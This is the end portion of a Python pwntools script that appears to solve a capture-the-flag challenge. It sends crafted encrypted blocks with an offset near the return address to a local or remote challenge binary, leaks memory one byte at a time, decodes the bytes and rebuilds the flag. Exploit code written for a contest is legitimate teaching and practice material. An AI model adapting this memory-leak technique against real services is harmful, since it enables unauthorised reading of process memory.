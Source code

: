 ```py
    conn.recvuntil(b": ")
    conn.sendline(b"0011223344550011")
    for pos in range(16):
        conn.recvuntil(b": ")
        conn.sendline(hex(block.shifts[pos])[2:].encode())
    conn.recvuntil(b"Please provide plaintext for block")
    conn.recvuntil(b": ")
    conn.sendline(block.plaintext.hex().encode())


def unscramble(upper, lower):
    if upper > lower:
        return (upper - lower) << 4 | lower & 0xF
    else:
        return (0x10 + upper - lower) << 4 | lower & 0xF


def reconstruct_data(read_data: bytes):
    shifts = [0] * 15
    dec = decrypt_block(
        to_nibbles(bytes.fromhex("0011223344550011")), shifts, to_nibbles(read_data)
    )
    dec = dec[-4:]
    fixed_data = bytes([unscramble(dec[2 * pos], dec[2 * pos + 1]) for pos in range(len(dec) // 2)])
    
    return fixed_data


def create_conn():
    if pwn.args.GDB:
        conn = pwn.gdb.debug(PATH, aslr=False)
    elif pwn.args.REMOTE:
        conn = pwn.remote("chal-kalmarc.tf", 8)
    else:
        conn = pwn.process(PATH)
    return conn


def main():
    with create_conn() as conn:
        OFFSET = 0x80
        flag = ""
        for i in range(64):
            conn.recvuntil(b"Number of blocks: ")
            conn.sendline(b"1")

            block = build_payload((OFFSET+i).to_bytes(1)*8, RETURN_OFFSET - 0x48)
            send_block(conn, block)

            conn.recvuntil(b"Block 0: ")
            read_leak = conn.recvline()[:-1].decode()
            print("leak:", read_leak)
            next_char = reconstruct_data(bytes.fromhex(read_leak)).decode()[0]
            flag += next_char

            if next_char == '}':
                break

        print(flag)
        conn.interactive()
    pass

```